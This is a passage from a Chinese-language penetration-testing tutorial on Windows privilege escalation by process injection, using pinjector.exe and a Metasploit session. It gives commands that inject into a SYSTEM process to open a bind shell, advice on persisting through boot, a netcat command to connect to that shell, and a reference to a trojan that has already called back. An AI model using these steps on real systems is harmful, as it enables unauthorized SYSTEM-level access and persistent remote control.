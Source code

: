 这里如果使用的是web权限是无法执行的，必须获取到类似与administrator的权限才能进行进程注入。同时这类提权是不会被杀毒软件拦截的，这是系统的一种特性。

## pinjector.exe进程注入

pinjector工具实现进程注入，这里需要先下载工具，然后将工具上传需要提权的系统中即可。

### 下载链接

[pinjector工具](https://www.tarasco.org/security/Process_Injector/index.html)

### 使用命令

```
pinjector.exe -l    ##列取所有进程
pinjector.exe -p <pid> cmd <port>  ##选择一个system权限运行的进程，对此pid进程执行注入，并建立侦听端口
```

### 操作步骤

#### 列出所有进程

这里通过命令查看所有进程的权限。

<img src="https://s2.loli.net/2023/03/27/wUiI3LZOHqg8zvm.png" alt="image-20230327130611474" style="zoom:67%;" />

#### 绑定进程

通过使用命令将权限绑定至system权限的进程中，这里选在进程最好绑定系统进程，这样能够实现开机自启。

<img src="https://s2.loli.net/2023/03/27/9mVRPI7C36bNH8u.png" alt="image-20230327132123515" style="zoom:67%;" />

#### 连接进程

这里使用kali设置个nc连接一下即可。

```
nc -nv 192.168.10.200 5555
```

![image-20230327132046026](https://s2.loli.net/2023/03/27/DQ9WxH8vyifwsIl.png)

## MSF进程注入

首先需要生成一个木马然后让其上线，并连接上去，这里我就用之前已经生成好的木马，就不再生成了，在上面也提到过MSF生成木马的命令。

### 查看进程

在反弹回来的界面输入命令，然后查看所有进程已经相应的权限。

```
ps ##查看进程
```

<img src="https://s2.loli.net/2023/03/27/fZme5UEz2GCBqFW.png" alt="image-20230327142739556" style="zoom: 50%;" />
